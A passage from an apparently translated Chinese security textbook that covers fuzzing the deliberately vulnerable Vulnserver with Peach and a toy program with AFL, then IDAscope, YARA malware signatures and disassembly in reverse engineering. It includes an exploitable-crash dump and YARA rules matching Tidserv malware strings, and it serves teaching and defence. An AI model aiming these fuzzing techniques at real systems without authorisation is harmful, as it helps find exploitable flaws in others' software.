ModLoad: 00007ff8`aefd0000 00007ff8`af1a1000   ntdll.dll
ModLoad: 00000000`777c0000 00000000`77943000   ntdll.dll
ModLoad: 00000000`72100000 00000000`72152000   C:\WINDOWS\System32\wow64.dll
ModLoad: 00000000`72160000 00000000`721d7000   C:\WINDOWS\System32\wow64win.dll
ModLoad: 00000000`000c0000 00000000`0016c000   WOW64_IMAGE_SECTION
...truncated for brevity
ModLoad: 00000000`74ba0000 00000000`74bfa000   C:\WINDOWS\SysWOW64\bcryptPrimitives.dll
ModLoad: 73200000 7324e000   C:\WINDOWS\SysWOW64\mswsock.dll
(5970.5bd4): Access violation - code c0000005 (first chance)
eax=0108f1f8 ebx=00000104 ecx=00e8551c edx=00000000 esi=00401848 edi=00401848
eip=80f88881 esp=0108f9d8 ebp=80808080 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
80f88881 ??        ???
...truncated for brevity
xmm7=0 0 0 0
80f88881 ??        ???

kb
ChildEBP RetAddr  Args to Child
WARNING: Frame IP not in any known module. Following frames may be wrong.
0108f9d4 c0b88080 80fe69b1 80808080 ac80e0ae 0x80f88881
0108f9d8 80fe69b1 80808080 ac80e0ae e03cb3c0 0xc0b88080
...truncated for brevity

2 !exploitable -m
IDENTITY:HostMachine\HostUser
PROCESSOR:X86
...truncated for brevity
STACK_FRAME:mswsock!DllMain+0x17f
STACK_FRAME:msvcrt!_initptd+0xb6
STACK_FRAME:essfunc+0x10ed
STACK_FRAME:mswsock!DllMainCRTStartup+0x1b
INSTRUCTION_ADDRESS:0xffffff80f88881
INVOKING_STACK_FRAME:3
DESCRIPTION:Data Execution Prevention Violation
SHORT_DESCRIPTION:DEPViolation
3 CLASSIFICATION:EXPLOITABLE
BUG_TITLE:Exploitable - Data Execution Prevention Violation starting at Unknown Symbol @
0xffffff80f88881 called
from mswsock!DllMain+0x00000000000017f (Hash=0x1b1e681f.0x191a342e)
EXPLANATION:User mode DEP access violations are exploitable.
C:\peach3\Logs\Fuzz_TRUN.xml_TestTRUN_20170529164655\Faults\EXPLOITABLE_0x1b1e681f_0x191a342e\185>
```

该文件包含两个主要部分：

- 从调试器收集的崩溃信息，包括已加载模块名称、CPU寄存器信息以及内存摘录。此信息在前面的日志中从1开始。

- 一个包含崩溃信息及其分类的 !exploitable 报告。此部分的日志信息为崩溃提供了更多上下文，包括异常代码、堆栈帧信息、bug标题和分类。分类是 !exploitable 对崩溃潜在可利用性的结论。它可能包含以下四个值之一：Exploitable、Probably Exploitable、Probably Not Exploitable 或 Unknown。此信息在前面的日志中跨越2到3。

快速查看第3行上的分类，即可知道是否需要花更多时间分析此潜在漏洞。在此示例中，我们看到它存在漏洞，但将进一步分析和利用的详细内容留待另一章介绍。

## Lab 3-2：使用Peach进行生成模糊测试

您可以通过执行以下实验步骤，跟随前面的示例进行操作：

- 1. 将易受攻击的服务器应用程序（.exe 和 .dll）下载到您的测试实验室，或自行构建（https://github.com/stephenbradshaw/vulnserver）。然后将可执行文件放置在 C:\vulnserver。

- 2. 启动易受攻击的服务器，如下所示（注意输出中的警告）：
  C:\vulnserver>vulnserver.exe

- 3. 下载并安装适用于Windows的A/V安全版netcat（不带 -e）（https://joncraton.org/blog/46/netcat-for-windows/）。

- 4. 从另一个窗口测试易受攻击的服务器，如下所示：
  C:\Users\test\downloads\nc111nt_safe>nc localhost 9999

- 5. 将先前列出的 fuzz_TRUN.xml 文件（可从图书下载站点获取）复制到 C:\peach3\ 文件夹。

- 6. 从管理员命令提示符启动您的Peach代理：
  C:\peach3> peach -a tcp

- 7. 从新的管理员命令提示符启动Peach Pit：
  C:\peach3> peach fuzz_TRUN.xml TestTRUN

- 8. 监控并审查 Logs 文件夹 (C:\peach3\logs)。


**注意** 取决于您的Windows版本，您可能会遇到警告，或者易受攻击的服务器可能会崩溃，您需要重新开始测试。取决于您运气好坏，您可能需要生成许多测试用例——甚至多达一千个——才能让程序生成故障。

## 使用AFL进行遗传或进化模糊测试

在谈到遗传或进化模糊测试时，AFL是最佳选择，尤其是针对用C或C++编写的基于文件的解析器。当源代码可用时，应用程序可在使用clang或g++编译期间通过AFL进行插桩。在本节中，我们将查看此文件解析应用程序，它会对突变模糊测试器构成重大挑战。此程序已从Gynvael Coldwind（Michael Skłodnikiewicz）在一段关于遗传模糊测试的出色视频博客中给出的示例改编而来（另请参阅“进一步阅读”）。正如Gynvael所解释的，当应用程序有许多嵌套if/then块时，突变模糊测试器通常很难，甚至不可能，在我们有生之年达到完全代码覆盖率。考虑这个简单示例：


**注意** 此时，我们将切换到Kali Linux 2017，您可以从kali.org下载。

```
root@kali:~/afl-2.41b# cat input/file.txt
aaaaaaa
root@kali:~/afl-2.41b# cat asdf3.c
#include <stdio.h>
#include <stdlib.h>
#code adapted with permission from Gynvael -
#https://github.com/gynvael/stream-en/tree/master/019-genetic-fuzzing
```

```c
int main(int argc, char **argv) {
    FILE *f = fopen(argv[1], "rb");
    if (!f) {
        return 1;
    }

    char buf[16] = {0};
    fread(buf, 1, 16, f);
    fclose(f);

    if (buf[0] == 'a') {
        if (buf[1] == 'b') {
            if (buf[2] == 'c') {
                if (buf[3] == 'd') {
                    if (buf[4] == 'e') {
                        if (buf[5] == 'f') {
                            if (buf[6] == 'g') {
                                if (buf[7] == 'h') { ① abort();
                                }
                            }
                        }
                    }
                }
            }
        }
    }
    return 0;
}
```

位于①的abort()语句将导致程序崩溃。问题是模糊测试器是否能找到它。使用突变模糊测试器，如果我们一次提交一个输入文件，那么命中该最内层代码块的概率是256^8分之一。如果您的计算机每秒能处理1,000个文件（且您运气不好），可能需要长达数字


使用变异模糊测试器完成此模糊测试任务所需的年数，计算如下：

```
$ python
Python 2.7.10 (default, Oct 23 2015, 18:05:06)
[GCC 4.2.1 Compatible Apple LLVM 7.0.0 (clang-700.0.59.5)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> 256**8/1000/86400/365
584942417L
>>>
```

这可是不少年！现在让我们看看 AFL 如何处理这个棘手的问题。首先，像这样使用 AFL 插桩进行编译：

```
root@kali:~/afl-2.41b# ./afl-clang ./asdf3.c -o asdf3
afl-cc 2.41b by <lcamtuf@google.com>
afl-as 2.41b by <lcamtuf@google.com>
[+] Instrumented 13 locations (32-bit, non-hardened mode, ratio 100%).
```

现在让我们开始使用 AFL 进行模糊测试：

```
root@kali:~/afl-2.41b# ./afl-fuzz -i input/ -o output -d ./asdf3
@@
afl-fuzz 2.41b by <lcamtuf@google.com>
[+] You have 2 CPU cores and 1 runnable tasks (utilization: 50%).
[+] Try parallel jobs - see
/usr/local/share/doc/afl/parallel_fuzzing.txt.
[*] Checking CPU core loadout...
[+] Found a free CPU core, binding to #0.
[*] Checking core_pattern...
[*] Setting up output directories...
[+] Output directory exists but deemed OK to reuse.
[*] Deleting old session data...
[+] Output dir cleanup successful.
[*] Scanning 'input/'...
[+] No auto-generated dictionary tokens to reuse.
[*] Creating hard links for all input files...
[*] Validating target binary...
[*] Attempting dry run with 'id:000000,orig:file.txt'...
[*] Spinning up the fork server...
[+] All right - fork server is up.
len = 9, map size = 5, exec speed = 360 us
[+] All test cases processed.
```

[+] 以下是一些有用的统计信息：

```
Test case count : 1 favored, 0 variable, 1 total
  Bitmap range : 5 to 5 bits (average: 5.00 bits)
  Exec timing  : 360 to 360 us (average: 360 us)
```

```
[*] No -t option specified, so I'll use exec timeout of 20 ms.
[+] All set and ready to roll!
```

如下所示，AFL 自带一个信息丰富的界面。最重要的信息出现在右上角，我们可以看到已完成的周期、找到的总路径数以及唯一崩溃的数量。

```
american fuzzy lop 2.41b (asdf3)
process timing     overall results
  run time : 0 days, 0 hrs, 5 min, 42 sec   cycles done : 441
  last new path : 0 days, 0 hrs, 2 min, 6 sec   total paths : 8
  last uniq crash : 0 days, 0 hrs, 0 min, 34 sec   uniq crashes : 1
  last uniq hang : none seen yet       uniq hangs : 0
  cycle progress
    now processing : 5 (62.50%)      map coverage : 0.01% / 0.03%
    paths timed out : 0 (0.00%)      count coverage : 1.00 bits/tuple
  stage progress
    now trying : splice 13         findings in depth
    stage execs : 252/256 (98.44%)   favored paths : 8 (100.00%)
    total execs : 1.44M            new edges on : 8 (100.00%)
    exec speed : 4214/sec          total crashes : 1 (1 unique)
  fuzzing strategy yields
    bit flips : n/a, n/a, n/a      path geometry
    byte flips : n/a, n/a, n/a       levels : 7
    arithmetics : n/a, n/a, n/a      pending : 0
    known ints : n/a, n/a, n/a       pend fav : 0
    dictionary : n/a, n/a, n/a       own finds : 7
      havoc : 8/959k, 0/475k       imported : n/a
      trim : 17.95%/6, n/a         stability : 100.00%
^C                                                                 [cpu000:100%]
```

如你所见，模糊测试器发现了一个崩溃——正是我们预期它会发现的那个。还不错。AFL 在五分钟多一点的时间里就找到了内部代码块。

与 Peach 类似，AFL 提供了一个崩溃日志，你将在其中找到到达易受攻击代码块的文件输入：

```
root@kali:~/afl-2.41b# cat
output/crashes/id\:000000\,sig\:06\,src\:000007\,op\:havoc\,rep\:2
abcdefghbcdeS
```

如预期，字符串 "abcdefgh" 的前 8 个字节被解析并触及了内部代码块，程序在此中止（崩溃）。

## Lab 3-3：使用 AFL 进行遗传模糊测试

对于本实验，你将按照刚才所示的步骤构建和使用 AFL：

- 1. 从 Kali Linux 2017 32 位镜像开始，为虚拟机分配 2GB 内存和两个内核，下载并构建 AFL：
  - wget lcamtuf.coredump.cx/afl/releases/afl-latest.tgz
  - tar -xzvf afl-latest.tgz
  - cd afl-2.41b/
  - make

- 2. 复制 asdf3.c 文件，或从书籍的网页下载它并保存到 afl-2.41b/ 目录。

- 3. 使用 AFL 插桩进行编译：

```
./afl-clang ./asdf3.c -o asdf3
```

- 4. 在 afl-2.41b/ 目录下创建 input/ 目录。

- 5. 在该目录下，创建一个名为 file.txt 的文件，内容为 aaaaaa（不带引号）。

- 6. 从 afl-2.41b/ 目录内执行以下命令，启动 AFL 模糊测试：

```
./afl-fuzz -i input/ -o output -d ./asdf3
```

- 7. 检查 GUI 中的崩溃，然后像之前所示一样检查崩溃日志。

## 总结

模糊测试作为一种测试方法，因其简单性和易于设置而广受欢迎。如今的模糊测试框架，例如 Peach，都建立在随机测试的原始理念之上。它们通过跟踪模糊测试社区的最新进展而不断演进。AFL 利用遗传算法进化到最佳代码覆盖率，将模糊测试提升到了一个新水平。要高效地使用这些新工具，有必要与它们打交道并加以理解。本章应为你提供必要的术语和模糊测试世界的概览，帮助你开始测试并挖掘漏洞。

## 延伸阅读

- !exploitable WinDbg 插件 msecdbg.codeplex.com
- “基于变异和生成的模糊测试分析”（C. Miller 和 Z. N. J. Peterson）fuzzinginfo.files.wordpress.com/2012/05/analysisfuzzing.pdf
- “看护一大群猴子”（C. Miller）fuzzinginfo.files.wordpress.com/2012/05/cmiller-csw-2010.pdf
- Bochspwn Blackhat 演示文稿（Gynvael 和 Mateusz Jurczyk）media.blackhat.com/us-13/us-13-Jurczyk-Bochspwn-Identifying-0-days-via-System-wide-Memory-Access-Pattern-Analysis-Slides.pdf
- Boofuzz（Joshua Pereyda）github.com/jtpereyda/boofuzz
- “模糊测试专题，”YouTube（Mike Eddington、Jared DeMott、Ari Takanen）https://www.youtube.com/watch?v=TDM-7xUPzqA
- “使用 Peach 3 对 Vulnserver 进行模糊测试”（David Um）www.rockfishsec.com/2014/01/fuzzing-vulnserver-with-peach-3.html
- “使用 Peach 对 Vulnserver 进行模糊测试：第 2 部分”（Dejan Lukan）http://resources.infosecinstitute.com/fuzzing-vulnserver-with-peach-part-2/
- “模糊测试工作流；从头到尾的一个 FuzzJob”（Brandon Perry）foxglovesecurity.com/2016/03/15/fuzzing-workflows-a-fuzz-job-from-start-to-finish/
- IANA 媒体类型 www.iana.org/assignments/media-types
- Microsoft Visual Studio Express www.visualstudio.com
- Notepad++ 编辑器 notepad-plus-plus.org
- Peach 模糊测试框架 peachfuzzer.com
- Python 语言 www.python.org
- Radamsa 模糊测试器 github.com/aoh/radamsa
- “RAM 磁盘与保护你的 SSD 免受 AFL 模糊测试影响”（Michael Rash）www.cipherdyne.org/blog/2014/12/ram-disks-and-saving-your-ssd-from-afl-fuzzing.html
- 多媒体样本存储库 samples.mplayerhq.hu
- “软件漏洞开发——使用 AFL 进行模糊测试”（Jonathan Racicot）thecyberrecce.net/2017/03/20/software-exploit-development-fuzzing-with-afl/
- “教程——模糊测试入门指南”（Hanno Böck）fuzzing-project.org/tutorial1.html
- Gynvael 的视频博客 www.youtube.com/watch?v=JhsHGms_7JQ 和 github.com/gynvael/stream-en/tree/master/019-genetic-fuzzing
- Vulnserver（Stephen Bradshaw）github.com/stephenbradshaw/vulnserver

## 下一代逆向工程

对于逆向工程（RE）等解决问题的活动，得出解决方案并没有好坏之分。大多数时候，这是一场为了出于各种目的提取所需信息的竞赛，例如：

- 对软件进行安全审计
- 了解漏洞以便创建漏洞利用程序
- 分析恶意代码以便创建检测签名

在进行此活动的过程中，逆向工程师可能会对自己的工作流程和工具感到自满，从而错过该领域最近进展或新工具带来的好处。

本章旨在展示一些相对较新的工具和分析技术，如果有机会使用，它们可能会大大改善你平常的逆向工程工作流程。本章主要面向恶意软件分析和漏洞研究，但这些思路可以应用于几乎任何逆向工程任务。

本章将涵盖以下主题：

- 代码注释
- 协作分析
- 动态分析

### 代码注释

没有提到交互式反汇编器（即 IDA）的逆向工程讨论是不完整的。本节探讨了通过更好的 IDA 数据库文件（IDB）反汇编注释来改进 IDA 功能和易用性的方法。这些扩展是由希望改进工作流程并克服分析过程中遇到的问题的 IDA 用户开发的。因此，它们充当了逆向工程师在进行恶意软件或漏洞研究时遇到的常见问题和解决方案的良好示例。

### 使用 IDAscope 进行 IDB 注释

IDAscope 是由 Daniel Plohmann 和 Alexander Hanel 开发的一个有趣的开源插件。它在 2012 年 Hex-Rays 插件竞赛中获得第二名，主要面向 Windows 文件逆向工程。不过，它具有可扩展的架构，易于修改和添加功能。以下是 IDAscope 插件提供的部分功能列表：

- 重命名和注释函数
- 将代码块转换为函数


- 识别加密函数
- 将 Windows API 文档导入 IDA
- 语义代码着色

你可以通过从 https://bitbucket.org/daniel_plohmann/simplifire.idascope 下载代码来安装此插件。要启动插件，请从 IDA 运行 IDAscope.py 脚本。如果插件初始化成功，则 IDA 输出窗口中将出现以下信息：

```
[!] IDAscope.py is not present in root directory specified in "config.py",
trying to resolve path...
[+] IDAscope root directory successfully resolved.
######################################
IDASCOPE
######################################
by Daniel Plohmann and Alexander Hanel
######################################
[+] Loading simpliFiRE.IDAscope
[/] setting up shared modules...
[!] loading DocumentationHelper
[!] loading SemanticIdentifier
...
[\] this took 0.08 seconds.
```

图 4-1 显示了 IDA 中的 IDAscope 用户界面。该插件提供了一组强大的功能，可帮助进行初始文件分析。下面是在处理新样本时使用此插件的典型工作流：



图 4-1 IDAscope 插件用户界面

- 1. 将所有未知代码修复为函数。使用多种启发式规则将 IDA 中未识别为函数的数据和代码转换为适当的 IDA 函数。该过程首先执行“将具有已知函数序言的未知代码修复为函数”的扫描。这样可确保在第一个过程中，仅将具有强指示符的代码转换为函数。在此情况下，标准函数序言（push ebp; mov ebp, esp 或 55 8B EC）被用作启发式规则。之后，插件将尝试将所有其他指令转换为函数代码。

- 2. 重命名潜在的包装函数。这是为 IDB 获取高质量注释的一种快速简便方法。包装函数通常是实现另一个函数（例如 API）错误检查代码的简单函数。在此上下文中，函数包装器只能调用一个其他函数，因此可以轻松确定哪个函数被包装，并将该名称应用于包装器。
包装函数使用以下命名模板：WrappingApiName + _w（例如，CreateProcessA_w）。

- 3. 根据识别的标记重命名函数。这种非常酷的方法可以显著加快逆向工程过程。它基于对 API 函数进行分组，并将组名作为前缀添加到函数名。例如，调用 CryptBinaryToStringA 的函数 sub_10002590 将被重命名为 Crypt_sub_10002590。在函数调用来自多个组的 API 的情况下，它将以所有组名作为前缀（例如，Crypt_File_Reg_sub_10002630）。

- 4. 切换语义着色。此步骤将为调用预定义组中 API 函数的每个基本块着色。不同的颜色代表不同的 API 组，这使得基于颜色更轻松地定位有趣的基本块。在查看概览以了解不同函数在图中如何被调用时，这在较大的图中尤其有用。

此时，IDB 应该已填充 IDAscope 插件的所有注释，现在可以开始样本分析。

在 Windows 上进行逆向工程时，经常会遇到不熟悉的 API 函数名。在这种情况下，最常见的方法是在 Microsoft 开发人员网络 (MSDN) 上查找其描述。IDAscope 中的 WinAPI 浏览选项卡支持直接从 IDA 用户界面查找 MSDN 函数描述页面（图 4-2 显示了一个示例）。这些页面有两种模式可供访问：在线和离线。对于在线模式，需要有互联网连接。对于离线可用性，需要下载 API 描述并将其解压到默认位置 C:\WinAPI，之后再搜索和阅读描述时无需互联网连接。

## CreateProcess 函数

创建新进程及其主线程。新进程在调用进程的安全上下文中运行。

如果调用进程正在模拟另一个用户，则新进程使用调用进程的令牌，而不是模拟令牌。要在模拟令牌所代表的用户的安全上下文中运行新进程，请使用 CreateProcessAsUser 或 CreateProcessWithLogonW 函数。

## 语法

```
```c
BOOL WINAPI CreateProcess(
    __in_opt    LPCTSTR lpApplicationName,
    __inout_opt LPTSTR lpCommandLine,
    __in_opt    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    __in_opt    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    __in        BOOL bInheritHandles,
    __in        DWORD dwCreationFlags,
    __in_opt    LPVOID lpEnvironment,
    __in_opt    LPCTSTR lpCurrentDirectory,
    __in        LPSTARTUPINFO lpStartupInfo,
    __out       LPPROCESS_INFORMATION lpProcessInformation
);
```
```

## 参数

图 4-2 IDAscope 中的 WinAPI 浏览选项卡

恶意软件逆向工程通常涉及识别和分类正确的恶意软件家族。YARA 可能是开源世界中编写恶意软件签名最流行、最知名的工具。它支持编写带有通配符的简单字节签名，以及更复杂的正则表达式。此外，它还使用支持的文件格式模块。

随着越来越多的研究人员和恶意软件情报源在其报告中支持和包含 YARA 签名，能够直接从 IDA 检查它们非常方便。IDAscope 可以加载所有可用的 YARA 签名，并针对加载的样本进行检查。它输出一个表格，包含有关匹配了多少个签名以及在哪些位置匹配的信息。以下是 Tidserv 恶意软件的示例 YARA 签名：

```
rule Tidserv_cmd32 {
meta:
  author = "GrayHat"
  description = "Tidserv CMD32 component strings."
  reference = "0E288102B9F6C7892F5C3AA3EB7A1B52"
strings:
  $m1 = "JKgxdd5ff44okghk75ggp43423ksf89034jklsdfjklas89023"
  $m2 = "Mozilla/5.0 (Windows; U; Windows NT 6.0; en-US; rv:1.9.1.1) Gecko/20090911 Firefox/3.5.1"
condition:
  any of them
}
```

```
rule Tidserv_generic {
meta:
  author = "GrayHat"
  description = "Tidserv config file strings."
  reference = "0E288102B9F6C7892F5C3AA3EB7A1B52"
strings:
  $m1 = "[kit_hash_begin]"
  $m2 = "[cmd_dll_hash_begin]"
  $m3 = "[SCRIPT_SIGNATURE_CHECK]"
condition:
  any of them
}
```

将之前的签名与 Tidserv 样本（MD5: 0E288102B9F6C7892F5C3AA3EB7A1B52）进行检查，结果如图 4-3 所示，表明两个 YARA 规则——Tidserv_generic 和 Tidserv_cmd32——匹配了所有字符串签名。从此，可以通过检查匹配发生的地址来分析和检查潜在的误报匹配。



图 4-3 IDAscope YARA 扫描器表


注意 使用 YARA 签名是记录恶意软件分析和创建个人签名存储库的好方法。这些签名可用于恶意软件聚类或威胁情报，以追踪特定攻击者组，然后将恶意软件变体与它们关联。

作为探索此插件功能的最后一步，我们将使用它来识别加密函数。首先也是最常见的方法是识别各种加密常数。许多其他 IDA 插件以及其他调试器实现了此功能，包括 FindCrypt、FindCrypt2、用于 PeID 的 KANAL、SnD Crypto Scanner 和 CryptoSearcher。除了使用此标准方法外，IDAscope 还实现了一种基于循环的静态启发式方法来检测加密代码。检测启发式方法包含三个可配置参数：

- ArithLog Rating 该参数使用限制来确定基本块中算术指令的最小和最大百分比。循环内较高比例的算术指令是加密、解密或哈希相关功能的良好指示。
- Basic Blocks Size 该参数定义基本块所需指令数的最小和最大范围。因为加密和哈希算法通常具有展开的循环，所以查找较大的基本块可能是加密算法的指示。
- Allowed Calls 该参数定义基本块中被视为与加密相关的调用指令数的最小和最大范围。调用指令数量少可用于加强加密函数的识别，假设大多数加密函数是自包含的，以提高性能。

很难推荐最佳参数配置，因为这很大程度上取决于实现的加密算法。最佳方法是以迭代方式修改参数并检查结果。如果特定参数配置未产生满意结果，在结果数量少的情况下可以降低边界，或者在结果噪声较大时增加限制。

图 4-4 显示了用于识别 RC4 算法之前的 XOR 解密位置的参数示例配置。




| | 地址 | 名称 | 块地址 | 指令数 | 算术/逻辑评分 |
|---|---|---|---|---|---|
| 1 | 0x10002630 | _Main__m | 0x100026c0 | 6 | 50.00 |
| 2 | 0x10002630 | _Main__m | 0x100026e0 | 6 | 50.00 |
| 3 | 0x10002630 | _Main__m | 0x10002700 | 6 | 50.00 |
| 4 | 0x10002630 | _Main__m | 0x10002720 | 6 | 50.00 |
| 5 | 0x10001100 | sub_10001100 | 0x10001107 | 10 | 60.00 |

图 4-4 IDAscope 加密识别

通过检查报告地址处的代码，我们可以确认异或解密。以下是 IDAscope 报告的前两个基本块的代码清单：

```
.text:100026C0
.text:100026C0 _xor_loop_1:
.text:100026C0 mov cl, al
.text:100026C2 add cl, 51h
.text:100026C5 xor byte_10007000[eax], cl
.text:100026CB add eax, 1
.text:100026CE cmp eax, 100h
.text:100026D3 jb short _xor_loop_1
...
```

```
.text:100026E0
.text:100026E0 _xor_loop_2:
.text:100026E0 mov dl, al
.text:100026E2 add dl, 51h
.text:100026E5 xor byte_10007100[eax], dl
.text:100026EB add eax, 1
.text:100026EE cmp eax, 100h
.text:100026F3 jb short _xor_loop_2
...
```

在位置 1 和 3，我们可以看到异或滚动密钥的可见更新，值为 0x51。在位置 2 和 4，我们可以看到使用前一条指令计算的密钥解密内存的指令。这两个循环使用相同的算法风格解密不同的内存区域，是识别无法通过传统加密常量匹配来识别的自定义加密算法的良好示例。

熟悉 IDAscope 及其功能肯定会有所回报，并提高您使用 IDA 进行逆向工程的速度和效率。

## C++ 代码分析

C++ 是一种比 C 稍复杂的语言，提供了成员函数和多态性等特性。这两个特性需要特定的实现细节，因此在使用时，编译后的 C++ 代码看起来与编译后的 C 代码有很大不同。

## 编译后 C++ 代码的特性

首先，C++ 中的所有非静态成员函数都需要 this 指针；其次，C++ 通过使用虚表（vtables）来实现多态性。


> 注意 在 C++ 中，this 指针可用于所有非静态成员函数，它指向调用该成员函数的对象。您只需在每次调用函数时为 this 提供不同的值，即可使用单个函数对许多不同的对象进行操作。

将 this 指针传递给成员函数的方式因编译器而异。Microsoft 编译器在调用成员函数之前，会获取调用对象的地址并将其放入 ecx/rcx 寄存器中。Microsoft 将此调用约定称为“thiscall”。其他编译器，例如 Borland 和 g++，会将调用对象的地址作为第一个（最左侧）参数压入成员函数，从而使 this 实际上成为所有非静态成员函数的隐式第一个参数。因此，使用 Microsoft 编译器编译的 C++ 程序非常容易识别，因为它们使用了 thiscall。以下是一个简单示例：

```
demo	proc near
this	= dword ptr -4
val	= dword ptr 8

	push	ebp
	mov	ebp, esp
	push	ecx
	mov	[ebp+this], ecx	; save this into a local variable
	mov	eax, [ebp+this]
	mov	ecx, [ebp+val]
	mov	[eax], ecx
	mov	edx, [ebp+this]
	mov	eax, [edx]
